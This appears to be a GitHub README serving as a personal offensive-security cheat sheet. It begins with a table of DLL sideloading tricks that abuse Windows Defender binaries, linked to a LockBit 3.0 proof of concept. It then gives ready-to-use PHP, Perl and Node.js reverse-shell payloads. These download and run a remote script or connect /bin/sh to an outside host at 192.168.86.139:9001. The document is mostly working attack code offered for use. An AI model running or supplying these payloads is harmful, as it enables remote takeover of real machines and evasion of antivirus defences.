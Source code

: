 # DLL Sideloading
These are all some of my personal favorite sideloading tricks collected from various platforms. 

| Binary | Location | Reference DLL | Export Function | Reference |
|-------|---------|----------|-----|-----|
|NisSrv.exe|`C:\Program Files\Windows Defender\NisSrv.exe`|mpclient.dll|[Source](https://raw.githubusercontent.com/Sh0ckFR/Lockbit3.0-MpClient-Defender-PoC/main/dllmain-NisSrv.cpp)|[Link](https://twitter.com/Sh0ckFR/status/1554021948967079936)|
|MpCmdRun.exe|`C:\Program Files\Windows Defender\MpCmdRun.exe`|mpclient.dll|[Source](https://raw.githubusercontent.com/Sh0ckFR/Lockbit3.0-MpClient-Defender-PoC/main/dllmain-mpcmdrun.cpp)|[Link](https://twitter.com/Sh0ckFR/status/1554021948967079936)|

# Reverse Shells
_Credits: These reverse shells examples are reffered to [EzpzShell](https://github.com/H0j3n/EzpzShell) by [@h0j3n](https://twitter.com/h0j3n)_
### php reverse shell
You can get a full reverse shell script [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) by PentestMonkey
```php
<?php system("curl http://192.168.86.139/shell.php|php"); ?>
```

### perl reverse shell
```perl
# Example 1
perl -e 'use Socket;$i="192.168.86.139";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Example 2
use Socket

$i="192.168.86.139";
$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
    open(STDIN,">&S");
    open(STDOUT,">&S");
    open(STDERR,">&S");
    exec("/bin/sh -i");
}
```

### nodejs reverse shell
```node
# Example 1
require('child_process').exec('nc -e /bin/sh 192.168.86.139 9001')

# Example 2
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(9001, "192.168.86.139", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```
